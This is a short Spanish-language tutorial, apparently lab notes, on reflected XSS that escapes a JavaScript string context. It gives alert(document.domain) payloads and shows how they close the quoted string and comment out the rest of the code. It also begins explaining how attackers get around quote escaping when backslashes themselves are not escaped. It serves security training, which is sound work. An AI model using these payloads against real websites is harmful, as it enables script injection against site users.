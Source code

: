 
## Salir de una cadena de JavaScript

Cuando el contexto está dentro de una cadena JavaScript entre comillas, se puede salir de ella y ejecutar código arbitrario. Es fundamental mantener el resto del código sintácticamente válido.

Ejemplos de payloads:

```javascript
'-alert(document.domain)-'
';alert(document.domain)//
```

Supongamos que hay un código como el siguiente:
```html
<script>
  var input = 'aquí va tu entrada';
</script>
```
Y el servidor incluye tu input dentro de las comillas de esa variable. Si vos inyectás algo como:
```javascript
';alert(document.domain)//
```
Entonces el código se verá así:
```javascript
var input = '';alert(document.domain)//';
```
Esto cierra la cadena original, inyecta el código malicioso y comenta el resto del código para que no genere errores de sintaxis.

---

[Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded](2_Reflected_XSS_into_a_JavaScript_string_with_angle_brackets_HTML_encoded.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---
### Escapando barras invertidas

Algunas aplicaciones, para evitar `XSS`, intentan proteger las comillas que delimitan la cadena de JavaScript agregando una barra invertida `\` delante. 

Entrada:
```javascript
';alert(document.domain)//
```
Escapada por la app:
```javascript
\';alert(document.domain)//
```
Esto sucede ya que el conjunto de caracteres `\'` se interpreta como una comilla literal, no como el fin de una cadena.

Si los desarrolladores cometieron el error de escapar la comilla pero no la barra invertida `\`, permite al atacante anular la barra invertida agregando otra barra invertida propia.
